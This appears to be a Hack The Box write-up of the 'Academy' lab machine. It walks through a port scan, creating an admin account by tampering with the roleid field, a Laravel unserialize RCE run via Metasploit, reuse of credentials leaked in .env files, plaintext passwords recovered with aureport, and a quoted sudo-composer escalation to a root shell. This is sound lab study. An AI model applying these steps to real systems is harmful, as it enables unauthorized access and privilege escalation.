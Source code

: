 1, recon
ports scan: 
	22/tcp ssh
	80/tcp http `redirect to http://academy.htb/`
	3306/tcp mysql
page check
	From original `index.php`, we only get the `/login.php`and `register.php`
	When we login with a normal account, there would nothing useful for us, but `/admin` is existed.
web-contents enumerate
	By using fuff to enumerate the existed url, there is nothing useful for us.And we check the sub-domains, there is nothing for us.

Let's check the sql-injection:
	In this place, we could not find any error sentences or output, so we could not know is there any sql injection.

This time we gonna try to use burp to catch the package of response.
The submitted information is very funny
`uid=wither&password=1234567&confirm=1234567&roleid=0`
If we change the roleid to 1, we can create a admin account for us.
![[Pasted image 20240903090732.png]]

In this place we get another sub-domain `dev-staging-01.academy.htb`

We get into a debug or developer platform, and we can get so much source codes and credits.

```
|DB_CONNECTION|"mysql"|
|DB_HOST|"127.0.0.1"|
|DB_PORT|"3306"|
|DB_DATABASE|"homestead"|
|DB_USERNAME|"homestead"|
|DB_PASSWORD|"secret"|
```

I guess `secret` would be the password for user `homestead`.Sadly, it does not.
Come to the error message 
`The stream or file "/var/www/html/htb-academy-dev-01/storage/logs/laravel.log" could not be opened in append mode: failed to open stream: Permission denied`

The various logs above suggest this is running the Laravel PHP framework.

This service is `Laravel PHP framework` , let's check the vulnerability of that.
`PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution`
![[Pasted image 20240903091836.png]]

Then we just need to use MSF to get the `www-data` shell.

Let's enumerate the configs and secret files.
There is a useful file `/var/www/html/academy/.env`
```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```
We get the database credits and let us enumerate it, but we cannot check the database
`ERROR 1045 (28000): Access denied for user 'dev'@'localhost' (using password: YES)`
So let's check the `/etc/passwd` and find useful users.
```
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
g0blin:x:1005:1005::/home/g0blin:/bin/sh
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
```
By checking their directory, only user `cry0l1t3` is valid and luckily we can use the previous password to login.

In user `egre55` directory, there is a funny file
`.sudo_as_admin_successful`
and user `mrb3n` would also useful because of 
![[Pasted image 20240903093355.png]]

When I check id 
`uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)`
We found adm
`According to the docs, this group:`
```
Group adm is used for system monitoring tasks. Members of this group can read many log files in /var/log, and can use xconsole. Historically, /var/log was /usr/adm (and later /var/adm), thus the name of the group.
```

After a bit of time running different grep commands across all the log data, I came across aureport, a tool that will parse the audit logs for various things. This page suggests the the --tty option can show plaintext passwords. I gave it a try, and it dumped mrb3n’s password on line 2:
```
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

This would be the password of user `mrb3n`
When we check `sudo -l`, finally we find something 
```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

There would be a tricky thing: we can find the hints from GTFOBins
```
Sudo
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```
